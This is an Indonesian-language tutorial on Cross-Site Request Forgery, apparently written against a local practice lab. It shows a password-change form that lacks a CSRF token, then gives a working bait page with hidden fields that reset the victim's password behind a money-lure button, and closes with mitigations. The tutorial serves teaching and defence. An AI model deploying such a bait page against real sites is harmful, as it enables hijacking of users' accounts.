

# Cross-site Request Forgery
## Definisi

CSRF (Cross-Site Request Forgery) adalah jenis kerentanan pada aplikasi web di mana penyerang dapat mengeksploitasi kepercayaan yang diberikan pengguna kepada suatu situs web. Dalam serangan CSRF, penyerang memanipulasi pengguna yang sedang diautentikasi (login) di situs web target untuk melakukan tindakan yang tidak disengaja tanpa sepengetahuan atau persetujuan mereka.


## Contoh Serangan

Terdapat sebuah website dengan fitur mengganti akun password.



```html
<form action="#" method="GET">
    New password:<br />
    <input type="password" AUTOCOMPLETE="off" name="password_new"><br />
    Confirm new password:<br />
    <input type="password" AUTOCOMPLETE="off" name="password_conf"><br />
    <br />
    <input type="submit" value="Change" name="Change">
</form>
```

Dapat dilihat tidak ada "CSRF-Token" sebagai proses verifikasi pada setiap request, maka dapat dibuat sebuah website sebagai **bait**.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Klik Dapat Uang Coy!!</title>
</head>
<body>
    <form action="http://localhost/vulnerabilities/csrf/?" method="GET">
        <input type="hidden" name="password_new" value="Password-Hacked-Attacker">
        <input type="hidden" name="password_conf" value="Password-Hacked-Attacker">
        <input type="hidden" name="Change" value="Change">
        <input type="submit" value="Klik Langsung Dapat UANG!!!">
    </form>
</body>
</html>
```

Website yang dibuat penyerang tujuannya adalah mengelabuhi korban, agar melakukan eksekusi request yang tidak diinginkan.

## Mitigasi

- `CSRF-Token`: Sebagai token unik pada setiap request dan sesi, server akan melakukan verifikasi sebelum memprosesnya.
- `Validasi Header`: Mengecek referer header untuk memastikan request berasal dalam sumber yang sah.
- `SameSite Cookie`: Mengatur cookie dengan atribut SameSite untuk membatasi bahwa request dibuat dalam situs yang sama.